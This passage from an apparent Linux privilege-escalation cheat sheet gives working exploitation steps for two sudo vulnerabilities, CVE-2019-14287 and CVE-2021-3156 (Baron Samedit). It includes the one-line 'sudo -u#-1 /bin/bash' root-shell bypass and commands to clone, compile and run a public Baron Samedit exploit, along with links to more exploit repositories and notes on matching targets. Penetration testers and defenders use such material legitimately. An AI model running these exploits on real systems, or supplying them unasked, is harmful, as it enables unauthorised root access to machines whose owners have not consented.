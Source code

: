 ### Emergency Exploitation
```bash
# CVE-2019-14287 (if vulnerable version + sudo access)
sudo -u#-1 /bin/bash

# CVE-2021-3156 (if vulnerable version)
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156 && make
./sudo-hax-me-a-sandwich 1  # Ubuntu 20.04
```

### Alternative Exploits
```bash
# Other CVE-2021-3156 exploits
# https://github.com/worawit/CVE-2021-3156
# https://github.com/stong/CVE-2021-3156

# Automated exploitation tools
# https://github.com/lockedbyte/CVE-Exploits
```

## ⚠️ Exploit Considerations

### CVE-2021-3156 Notes
- **Compilation required** on target or similar system
- **OS-specific targets** - must match exact version
- **Heap manipulation** - may cause crashes if wrong target
- **Success varies** based on system configuration

### CVE-2019-14287 Notes  
- **Simple exploitation** - one command
- **Requires sudo access** to any command
- **Limited impact** - only vulnerable versions
- **Well-patched** in modern systems

---

*Sudo CVE exploits provide direct privilege escalation for specific vulnerable versions - Baron Samedit and Policy Bypass represent critical sudo vulnerabilities requiring immediate patching.* 